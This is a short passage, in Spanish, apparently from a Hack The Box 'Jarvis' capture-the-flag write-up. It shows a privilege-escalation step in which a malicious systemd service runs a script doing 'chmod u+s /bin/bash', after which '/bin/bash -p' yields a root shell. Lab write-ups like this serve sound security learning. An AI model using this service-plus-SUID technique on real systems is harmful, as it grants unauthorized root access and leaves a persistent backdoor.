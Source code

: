   Creamos una configuración para que se habilite un servicio malicioso 

Archivo mario.service
```
[Unit]
Description=suid
User=root
[Service]
ExecStart=/home/pepper/root.sh
[Install]
WantedBy=multi-user.target

```

Archivo root.sh Lo que va a hacer es darle permiso SUID al bash para luego ejecutarla y nos arroje una terminal como root
```
#!/bin/bash
chmod u+s /bin/bash
```

![asd](/assets/htb/jarvis/bash_suid.png )

Ejecutamos **/bin/bash -p** para que nos arroje una terminal como el usuario root
![asd](/assets/htb/jarvis/flag.png )